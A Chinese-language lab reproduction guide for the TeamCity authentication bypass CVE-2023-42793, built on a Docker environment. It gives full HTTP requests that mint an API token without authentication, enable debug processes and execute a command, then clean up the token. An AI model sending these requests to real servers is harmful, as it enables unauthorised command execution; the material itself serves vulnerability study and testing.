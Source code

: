 # Jetbrains TeamCity 认证绕过导致远程命令执行漏洞 CVE-2023-42793

## 漏洞描述

TeamCity 是 JetBrains 的构建管理和持续集成服务器。

在 TeamCity 2023.05.3 版本及以前，存在一处由于逻辑错误导致的认证绕过漏洞，攻击者利用该漏洞最终可以在目标服务器上执行任意命令。

参考链接：

- [https://www.sonarsource.com/blog/teamcity-vulnerability/](https://www.sonarsource.com/blog/teamcity-vulnerability/)
- [https://blog.projectdiscovery.io/cve-2023-42793-vulnerability-in-jetbrains-teamcity/](https://blog.projectdiscovery.io/cve-2023-42793-vulnerability-in-jetbrains-teamcity/)

## 环境搭建

Vulhub 执行如下命令启动一个 TeamCity 2023.05.3 服务器：

```
docker compose up -d
```

服务启动后，需要打开 `http://your-vps-ip:8111/` 并执行一系列初始化操作，创建一个管理员账户。

![](images/Jetbrains%20TeamCity%20认证绕过导致远程命令执行漏洞%20CVE-2023-42793/image-20240718100142832.png)

## 漏洞复现

造成这个漏洞的原因是 TeamCity 内部对于所有以 `/RPC2` 为后缀结尾的请求都不认证权限。

而正好添加 API Token 的请求的结尾参数是 Token 的名字，我们可以添加一个名字为 `RPC2` 的 API Token：

```
POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: your-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![](images/Jetbrains%20TeamCity%20认证绕过导致远程命令执行漏洞%20CVE-2023-42793/image-20240718100832922.png)

这样就成功绕过权限认证生成了一个新的 Token：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2024-07-18T02:08:21.088Z" value="eyJ0eXAiOiAiVENWMiJ9.NU5Lc3lneWFhQ19CRUp3MDE4bnFUTTVGck1N.N2M4NDQ5MmEtYzQwOS00NjE5LTliOWMtNGY3YzQwMDNmNDY4"/>
```

使用该 Token 来开启调试模式：

```
POST /admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true HTTP/1.1
Host: your-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.NU5Lc3lneWFhQ19CRUp3MDE4bnFUTTVGck1N.N2M4NDQ5MmEtYzQwOS00NjE5LTliOWMtNGY3YzQwMDNmNDY4
```

![](images/Jetbrains%20TeamCity%20认证绕过导致远程命令执行漏洞%20CVE-2023-42793/image-20240718100938365.png)

开启调试模式后，就可以执行任意命令了：

```
POST /app/rest/debug/processes?exePath=id HTTP/1.1
Host: your-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 0
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.NU5Lc3lneWFhQ19CRUp3MDE4bnFUTTVGck1N.N2M4NDQ5MmEtYzQwOS00NjE5LTliOWMtNGY3YzQwMDNmNDY4
```

![](images/Jetbrains%20TeamCity%20认证绕过导致远程命令执行漏洞%20CVE-2023-42793/image-20240718101025802.png)

利用结束后，最好能够删除名为 `RPC2` 的 API Token，避免对业务造成问题：

```
DELETE /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: your-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![](images/Jetbrains%20TeamCity%20认证绕过导致远程命令执行漏洞%20CVE-2023-42793/image-20240718101113041.png)
